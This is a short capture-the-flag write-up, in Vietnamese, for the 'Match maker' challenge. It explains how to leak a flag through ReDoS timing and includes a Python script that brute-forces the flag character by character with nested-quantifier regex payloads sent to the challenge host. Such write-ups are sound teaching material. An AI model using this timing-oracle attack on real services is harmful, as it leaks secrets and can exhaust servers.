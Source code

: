 # Match maker

Nhìn vào sẽ thấy input ra được đưa vào làm tham số hàm regex của php, cùng với đó là flag, vì flag không được in ra nên để biết được flag ta sẽ dựa vào thời gian thực thi của Regex để bruteforce (ReDos)

Solve Script:
```python
import requests 
from string import printable
import re 

# base_time = 0.01
FLAG = "midnight{"
url = "http://matchmaker-2.play.hfsc.tf:12345/?x=midnight{%s((((((((.*)*)*)*)*)*)*)*)!}"
guess = ""
for i in range(0, 100):
    for char in printable:
        if char in ".*?\\|":
            char = "\\" + char
        r = requests.get(url % (guess + char))
        time = re.findall("<strong>Exec Time:</strong> (.+)<br \/>", r.text)[0]
        print(time)
        if "E" not in time and float(time) >= 0.001:
            FLAG += char
            guess += char
            print("[+ ==>] Guessing: " + guess)
            if char == "}":
                print(FLAG)
            break
        print("[*] trying " + char)
```
